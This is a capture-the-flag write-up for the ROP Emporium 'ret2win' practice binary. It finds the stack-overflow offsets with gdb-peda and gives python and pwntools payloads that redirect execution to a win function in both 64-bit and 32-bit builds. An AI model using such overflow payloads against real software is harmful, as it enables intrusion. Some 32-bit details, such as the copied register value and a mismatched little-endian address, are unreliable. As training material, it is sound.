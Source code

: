 

# Ret2Win

[ret2Win]: https://ropemporium.com/challenge/ret2win.html

## 64Bit

let's find how many shit we can put in the buffer before the overflow:

```bash
gdb -q ret2win 
gdb-peda$ pattern_create 200                                                                                          
'AAA%AAsAABAA$AAnAACAAAA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
	
gdb-peda$ run                                                                                                          

# we need the value that goes in RSP
	RSP: 0x7fffffffdfd8 ("AA0AAFAAbAA1AAGA\nm\341\367\377\177")

gdb-peda$ pattern_offset AA0AAFAAbAA1AAGA                                                                             
	AA0AAFAAbAA1AAGA found at offset: 40
```

now we know that we have 40 bytes of thrash.

Debugging we find the function `ret2win` e we can see that it print the flag. 

![r2w1](./assets/r2w1.png)

![r2w2](./assets/r2w2.png)

we add to the `payload` the address of `ret2win`,which will end up in the `RIP` register.

Pat attention to the fact that in `64 bit` architectures registers have 8 bytes, and the notation is `Little Endian`, so the address of the function from `0x00400756` becomes `5607400000000000`

```bash
python -c 'print "A" * 40 + "\x56\x07\x40\x00\x00\x00\x00\x00"' | ./ret2win
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF('ret2win')
io = process(elf.path) 

payload = b'A'*40 + p64(0x0000000000400756) # an alternative is 'p64(elf.symbols.ret2win)'

io.sendline(payload)
print(io.recvall())
```

## 32bit

```bash
gdb -q ret2win32 
gdb-peda$ pattern_create 200                                                                                          
'AAA%AAsAABAA$AAnAACAAAA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
	
gdb-peda$ run                                                                                                          

# we need the value thath goes into esp
	esp: 0x7fffffffdfd8 ("AA0AAFAAbAA1AAGA\nm\341\367\377\177")

gdb-peda$ pattern_offset AA0AAFAAbAA1AAGA                                                                             
	AA0AAFAAbAA1AAGA found at offset: 48
```

we know that 48-4=44 thrash characters and the remaining 4 goes into esp, while in `64` we do not need to subtract 4 byes because it pops before putting last 4 bytes into `RIP`

Get `ret2win` address 

![r2win3](./assets/r2win3.png)

Note that at `32 bit` registers has 4 bytes, and that there is the `Little Endian` notation, so the address of the function from `0x08860408` became `2c860408`

```bash
python -c 'print "A"*44 + "\x2c\x86\x04\x08" ' | ./ret2win32
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF('ret2win32')
io = process(elf.path)

payload = b'A'*44 + p32(elf.symbols.ret2win)

io.sendline(payload)
print(io.recvall())
```

